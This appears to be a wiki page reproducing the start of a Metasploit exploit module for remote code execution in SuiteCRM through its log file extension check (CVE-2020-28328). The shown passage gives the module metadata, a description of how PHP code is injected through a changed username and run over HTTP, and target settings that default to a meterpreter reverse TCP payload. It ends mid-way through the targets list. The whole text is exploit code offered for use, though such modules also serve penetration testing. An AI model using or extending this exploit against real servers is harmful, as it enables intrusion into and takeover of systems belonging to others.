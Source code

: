 <languages  /> <translate>

MSF模塊
-------

</translate>

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote
      Rank = GoodRanking

      include Msf::Exploit::Remote::HttpClient
      include Msf::Exploit::Remote::CmdStager
      include Msf::Exploit::FileDropper
      prepend Msf::Exploit::Remote::AutoCheck

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'SuiteCRM Log File Remote Code Execution',
            'Description' => %q{
              This module exploits an input validation error on the log file extension parameter. It does
              not properly validate upper/lower case characters. Once this occurs, the application log file
              will be treated as a php file. The log file can then be populated with php code by changing the
              username of a valid user, as this info is logged. The php code in the file can then be executed
              by sending an HTTP request to the log file. A similar issue was reported by the same researcher
              where a blank file extension could be supplied and the extension could be provided in the file
              name. This exploit will work on those versions as well, and those references are included.
            },
            'License' => MSF_LICENSE,
            'Author' =>
              [
                'M. Cory Billington' # @_th3y
              ],
            'References' =>
              [
                ['CVE', '2020-28328'], # First CVE
                ['EDB', '49001'], # Previous exploit, this module will cover those versions too. Almost identical issue.
                ['URL', 'https://theyhack.me/CVE-2020-28320-SuiteCRM-RCE/'], # First exploit
                ['URL', 'https://theyhack.me/SuiteCRM-RCE-2/'] # This exploit
              ],
            'Platform' => %w[linux unix],
            'Arch' => %w[ARCH_X64 ARCH_CMD ARCH_X86],
            'Targets' =>
            [
              [
                'Linux (x64)', {
                  'Arch' => ARCH_X64,
                  'Platform' => 'linux',
                  'DefaultOptions' => {
                    'PAYLOAD' => 'linux/x64/meterpreter_reverse_tcp'
                  }
                }
              ],
              [